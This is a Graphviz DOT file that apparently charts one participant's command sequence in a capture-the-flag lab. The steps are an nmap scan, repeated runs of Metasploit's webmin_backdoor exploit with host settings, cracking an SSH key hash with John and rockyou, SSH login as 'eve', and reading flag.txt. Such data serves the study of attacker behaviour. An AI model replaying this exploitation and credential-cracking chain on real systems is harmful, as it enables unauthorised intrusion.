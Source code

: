 // creating graph for user: 43
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	8 [label="chmod +x webmin.sh A15 "]
	12 [label="ls A10 "]
	13 [label="chmod +x 47230.rb A15 "]
	14 [label="ls A10 "]
	22 [label="msfconsole M2 "]
	23 [label="use 47230.rb A4 "]
	24 [label="show targets A5 "]
	25 [label="set TARGET 0 A6 "]
	26 [label="exploit M8 "]
	27 [label="show options M5 "]
	28 [label="set TARGETURI /root/ A6 "]
	29 [label="show options M5 "]
	30 [label="set RHOSTS 172.18.1.1 M6 "]
	31 [label="exploit M8 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	33 [label="show options M5 "]
	34 [label="exploit M8 "]
	35 [label="set TARGET 0 A6 "]
	36 [label="exploit M8 "]
	37 [label="set RHOSTS 172.18.1.5 M6 "]
	38 [label="exploit M8 "]
	39 [label="set LHOST 0.0.0.0 M6 "]
	40 [label="exploit M8 "]
	41 [label="show options M5 "]
	42 [label="set TARGETURI /root/ A6 "]
	43 [label="exploit M8 "]
	44 [label="set TARGETURI / A6 "]
	45 [label="show options M5 "]
	46 [label="exploit M8 "]
	47 [label="set LHOST 127.0.0.1 M6 "]
	48 [label="exploit M8 "]
	51 [label="set LHOST 192.168.131.153 M6 "]
	52 [label="exploit M8 "]
	53 [label="show options M5 "]
	54 [label="set LHOST 10.1.135.83 M6 "]
	55 [label="exploit M8 "]
	56 [label="check A7 "]
	57 [label="show options M5 "]
	58 [label="exploit M8 "]
	65 [label="msfconsole M2 "]
	66 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	67 [label="show options M5 "]
	69 [label="set LHOST 10.1.135.83 M6 "]
	71 [label="set RHOST 172.168.1.5 A6 "]
	72 [label="exploit M8 "]
	73 [label="show options M5 "]
	74 [label="set TARGET 0 A6 "]
	75 [label="exploit M8 "]
	76 [label="set RHOST 192.168.1.5 A6 "]
	77 [label="exploit M8 "]
	78 [label="set RHOST 172.18.1.5 A6 "]
	79 [label="exploit M8 "]
	80 [label="show options M5 "]
	81 [label="set TARGET 0 A6 "]
	82 [label="exploit M8 "]
	83 [label="show options M5 "]
	84 [label="set TARGET 0 A6 "]
	85 [label="exploit M8 "]
	86 [label="set TARGET 0 A6 "]
	88 [label="exploit M8 "]
	89 [label="set TARGET 0 A6 "]
	90 [label="exploit M8 "]
	91 [label="set TARGET 0 A6 "]
	94 [label="ls A10 "]
	95 [label="./ssh2john.py ~/Desktop/key.txt > hash A14 A16 "]
	96 [label="ls A10 "]
	97 [label="man john A14 "]
	98 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash M14 "]
	99 [label="msfconsole M2 "]
	100 [label="use /exploit/unix/webapp/webmin_backdoor M8 "]
	101 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	102 [label="show options M5 "]
	103 [label="set RHOST 172.18.1.5 A6 "]
	104 [label="set TARGET 0 A6 "]
	106 [label="set LHOST 10.1.135.83 M6 "]
	107 [label="ssh -i key.txt eve@10.1.17.45 M16 "]
	108 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	109 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	110 [label="chmod 777 key.txt A15 "]
	111 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	112 [label="chmod 400 key.txt A15 "]
	113 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	114 [label="ls A10 "]
	116 [label="ls A10 "]
	117 [label="cat flag.txt M17 "]
	0 -> 8 [constraint=false]
	8 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 69 [constraint=false]
	69 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	rankdir=LR
}
